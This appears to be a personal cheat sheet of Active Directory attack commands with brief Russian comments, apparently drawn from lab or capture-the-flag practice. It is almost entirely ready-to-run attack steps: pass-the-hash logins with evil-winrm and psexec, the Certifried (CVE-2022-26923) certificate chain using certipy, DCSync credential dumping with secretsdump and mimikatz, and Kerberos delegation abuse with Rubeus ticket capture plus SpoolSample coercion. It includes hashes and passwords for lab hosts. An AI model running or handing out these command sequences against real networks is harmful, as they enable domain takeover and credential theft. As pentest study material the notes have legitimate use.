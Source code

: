 		evil-winrm -i fluffy.htb -u administrator -H 8da83a3fa618b6e3a00e93f676c92a6e
    
*** Certifried (CVE-2022-26923) до мая 2022 года
  
			смотрим [*] Certificate has no object SID???
  
  		certipy req -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -dc-ip 10.129.228.237 -template User

			узнаем контроллер домена и центр сертификации
  
		certipy find -u 'BlWasp@lab.local' -p 'Password123!' -stdout -vulnerable

			Вводим в домен новую машинну с днс контроллера домена
  
		certipy account create -u 'blwasp@lab.local' -p 'Password123!' -dc-ip 10.129.228.134 -user NEWMACHINE -dns DC02.LAB.LOCAL

			запрашиваем для нее сертиикат
		pcertipy-ad req -u 'NEWMACHINE$' -p 'TwiLzWLT56X0Pd73' -ca domain-DC-CA-1 -template 'Machine' -dc-ip 192.168.134.10 -dns dc.domain.local

			авторизуемся с сертификатом и получаем креды

		certipy auth -pfx dc02.pfx

			делаем DCSYNC
		impacket-secretsdump 'LAB.LOCAL/dc02$@DC02.LAB.LOCAL' -hashes :6a5bfcba90a4ed0a8dc96448b7646c3e
			а потом  подключаемся
  		psexec.py lab.local/Administrator@172.16.19.5 -hashes aad3b435b51404eeaad3b435b51404ee:6e599ada28db049c044cc0bb4afeb73d


# DELEGATION

* Find accaunt with delegation
  
  		findDelegation.py INLANEFREIGHT.LOCAL/carole.rose:jasmine
		nxc ldap  172.16.8.3 -u annette.jackson -p horses -k --trusted-for-delegation --find-delegation
* Unconstrained delegation

  		.\Rubeus.exe monitor /interval:5 /nowrap		(Ожидание аутентификации пользователя)

  		.\Rubeus.exe asktgs /ticket:doIFmTCCBZWgAwIBBaE<SNIP>LkxPQ0FM /service:cifs/dc01.INLANEFREIGHT.local /ptt		Использование билета для запроса другого билета
		.\Rubeus.exe renew /ticket:doIFmTCCBZWgAwIBBaE<SNIP>LkxPQ0FM /ptt 		Обновление билета
		dir \\dc01.inlanefreight.local\c$

		------------------(провокация на аутентификацию контроллера на хосте)-----------------
  
		.\SpoolSample.exe dc01.inlanefreight.local sql01.inlanefreight.local 
		.\Rubeus.exe monitor /interval:5 /nowrap
		.\Rubeus.exe renew /ticket:doIFZjCCBWKgAwIBBaEDAgEWooIEWTCCBFVhggRRMIIETaADAgEFoRUbE0lOTEFORUZSRUl /ptt

    		mimikatz.exe ---> lsadump::dcsync /user:sarah.lafferty
  		.\Rubeus.exe asktgt /rc4:0fcb586d2aec31967c8a310d1ac2bf50 /user:sarah.lafferty /ptt        (Запрос билета для любого пользователя)
  		dir \\dc01.inlanefreight.local\c$
